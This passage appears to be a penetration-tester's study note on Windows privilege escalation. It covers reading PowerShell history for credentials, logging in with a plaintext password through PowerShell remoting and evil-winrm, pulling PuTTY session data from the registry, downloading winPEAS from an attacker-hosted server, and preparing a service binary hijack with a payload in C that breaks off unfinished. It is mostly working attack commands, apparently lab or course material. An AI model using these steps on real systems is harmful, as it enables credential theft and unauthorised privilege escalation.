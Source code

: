 ```powershell
```
`PSReadline` - **used for line-editing and command history functionality.**
```powershell
(Get-PSReadlineOption).HistorySavePath
```
Then read the `.txt` file by `type`.
```powershell
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
**local group `Windows Management Users` -> `Winrm,PS-Session, SSH`**
Expand path to **find sensitive filename**:
```powershell
tree [path]
```
PS-session:
```powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin",$password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
Evil-winrm:
```powershell
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```
**Event Viewer**:
If have RDP access -> Use `Event Viewer` -> ` Microsoft\Windows\PowerShell` section under` Applications and Services Logs`. 
### If found "PUTTY" installed
check sessions.
```powershell
reg query "HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions"
```
## Automation of enumeration
[Winpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240811-aea595a1)
Host a http server. On the target host, download `winpeas`:
```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
[SeatBelt.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
```powershell
.\Seatbelt.exe -group=all
```
We can see version under `InstalledProducts`
## Leveraging Windows Service
### Service binary hijacking
Get a list of installed Windows services:
* `services.msc` - GUI
* `Get-Service` 
* `Get-Ciminstance` - To query WMi class `win32_service`
```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
if `permission denied` -> using a interactive logon(eg.`rdp`)
To get permission:
* `Get-ACL`
* `icalcs` - for both cmd and powershell
In `icalcs`: `F=Full,M=Modify,RX=Read+execute,R=Read,W=Write`.
Create a small binary in kali, `adduser.c`:
```c
#include <stdlib.h>
int main ()
{
```
